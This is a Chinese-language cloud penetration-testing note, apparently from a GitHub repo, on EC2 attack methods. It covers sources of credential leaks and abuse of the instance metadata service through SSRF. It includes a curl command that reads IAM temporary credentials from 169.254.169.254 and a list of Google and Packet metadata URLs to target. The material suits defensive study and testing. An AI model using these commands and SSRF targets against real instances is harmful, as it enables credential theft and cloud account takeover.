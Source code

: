### EC2风险点/攻击方法

- EC2风险点/攻击方法，简单理解为云服务面临的风险点/攻击方法。

#### 凭证泄露

云场景下的凭证泄露可以分成以下几种：

- 控制台账号密码泄露，例如登录控制台的账号密码
- 临时凭证泄露
- 访问密钥泄露，即 AccessKeyId、SecretAccessKey 泄露
- 实例登录凭证泄露，例如 AWS 在创建 EC2 生成的证书文件遭到泄露

对于这类凭证信息的收集，一般可以通过以下几种方法进行收集：

- Github 敏感信息搜索
- 反编译目标 APK、小程序
- 目标网站源代码泄露

#### 元数据

元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 `/iam/security-credentials/<rolename>` 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404。

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了。一些价值较高的元数据：

```
ac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
```

**可以ssrf的常见元数据点：**

```
# packet
https://metadata.packet.net/userdata
```

```
# google
http://metadata.google.internal/computeMetadata/v1beta1/
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```
